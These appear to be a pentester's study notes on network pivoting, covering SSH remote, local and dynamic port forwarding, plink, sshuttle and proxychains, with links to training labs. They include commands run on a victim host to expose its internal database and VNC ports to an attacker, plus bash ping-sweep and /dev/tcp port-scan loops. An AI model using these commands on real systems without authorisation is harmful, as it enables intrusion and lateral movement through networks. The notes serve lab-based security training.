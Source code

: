 [Labs](https://attackdefense.com/listing?labtype=linux-security-pivoting&subtype=linux-security-pivoting-basics)
[Cheatsheet](https://web.archive.org/web/20181108223619/https://bitrot.sh/cheatsheet/14-12-2017-pivoting/)
[Blog](https://medium.com/@6c2e6e2e/network-pivoting-like-a-pro-2fa04a569d8c)
[Red teamers guide to pivoting](https://web.archive.org/web/20181110130047/https://artkond.com/2017/03/23/pivoting-guide/)
[Bitrot](https://web.archive.org/web/20180405115503/https://bitrot.sh/)

[Lab](https://tryhackme.com/room/wreath)
[Lab](https://tryhackme.com/room/borderlands)
# SSH port forwarding

Port tunneling or forwarding is a networking technique that allows traffic between ocal and remote machine.
We use port tunneling when we either can’t reach a destination because it is protected behind a firewall or only accessible internally.

***LPF lets you to connect from your local computer to another server.** 
**RPF lets you connect from the remote SSH server to another server**.*

## Remote Forwarding
Exposing the internal services and interact with them from attacker machine.
so basically :

|Victim side|Attacker side|
|--|--|
|127.0.0.1:3306|192.168.0.106:8080|
|127.0.0.1:5900|192.168.0.106:5555|

With remote port forwarding attacker is the one listening locally for traffic from the compromised server.

`ssh -R RemortPort:localhost:localport attacker@192.168.0.106`

Commands will be ==executed on victim machine==:
```bash
ssh -R 8080:127.0.0.1:3306 attacker@192.168.0.106
ssh -R 5555:127.0.0.1:5900 attacker@192.168.0.106
```


## Local Forwarding
Making remote service available on local machine.
```bash
ssh -L local_port:remort_ip:remort_port victim@ip

ssh -L 5050:127.0.0.1:21 admin@10.10.10.90
```
means on attacker machine local port 5050 will be routed to port 21 of victim machine 10.10.10.90.
	
## Dynamic Port Forwarding
This can be used with proxychains to forward client traffic through the remote server

```bash
ssh -D8080 [user]@[host]
```

## Other tools

## **Plink local port forwarding:**
```bash
plink -l root -pw pass -R 3389:<localhost>:3389 <remote_host>
```

## **SSH local port forwarding:**
```bash
ssh -L 5555:127.0.0.1:7777 jarvis@0.stark.ml -p 22
```

**SSHuttle forwarding:** #todo
Its creates a proxy and uses SSH connection to create a tunnerlled proxy that acts like a new interface. *It simulates a VPN*
We can just directly connect to devices in the target network as we would normally connect to networked devices. As it creates a tunnel through SSH (the secure shell), anything we send through the tunnel is also encrypted, which is a nice bonus. We use sshuttle entirely on our attacking machine, in much the same way we would SSH into a remote server.

```bash
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
```
*this command connects us to subnet 10.1.1.0/24*

```bash
sshuttle -r user@10.10.10.10 -N
```
*This command connects us to subnet which it tries to find itself*

```bash
sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" subnet
```
*supply the private key in the command*

```bash
sshuttle -r user@10.10.10.10 subnet -x 172.16.0.5
```
*-x is used to exclude compromised machine*

> If you facing some error then use -x flag to exclude that IP from that tunnel

## Proxychains / SSH Proxy
Forward the port first with SSH:
```bash
ssh -D 8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
# -f : ssh in background
# -N : do not execute a remote command
```

Config File: `/etc/proxychains.conf`

```bash
[ProxyList]
socks4 localhost 8080
```


### If there is no way then use msf
****
web_delivery > autoroute > ping sweep > Will get all the internal services.
****

## FRP tool pivoting
#FRP Binary on aws server and then client bianry on local system then we can use this as tunnel between 
AWS NAT pr krna hai 

# Manual
To find out the avaiable hosts in linux we will do ping speep
`for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`
Port Scanning:
`for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done`
by this simple script we will be able to find up hosts.

***So 3 ways:***
1. ssh from the machine to attacker (remote)
2. ssh from attacker to machine (local)
3. autoroute for internal ip running services.

![](https://i.imgur.com/aTxpNSI.png)

# Conclusion
- [ ]   Proxychains and FoxyProxy are used to access a proxy created with one of the other tools
- [ ]   SSH can be used to create both port forwards, and proxies
- [ ]   plink.exe is an SSH client for Windows, allowing you to create reverse SSH connections on Windows
- [ ]   Socat is a good option for redirecting connections, and can be used to create port forwards in a variety of different ways
- [ ]   Chisel can do the exact same thing as with SSH portforwarding/tunneling, ==but doesn't require SSH access== on the box ==(Works without even Having SSH)==
- [ ]   sshuttle is a nicer way to create a proxy when we have SSH access on a target



# Wreath
**Contents**
- [ ] Code Analysis (Python and PHP)
- [ ] Locating and modifying public exploits  
- [ ]  Simple webapp enumeration and exploitation  
- [ ] Git Repository Analysis
- [ ] Simple Windows Post-Exploitation techniques
- [ ] CLI Firewall Administration (CentOS and Windows)
- [ ] Cross-Compilation techniques
- [ ] Coding wrapper programs
- [ ] Simple exfiltration techniques  
- [ ] Formatting a pentest report


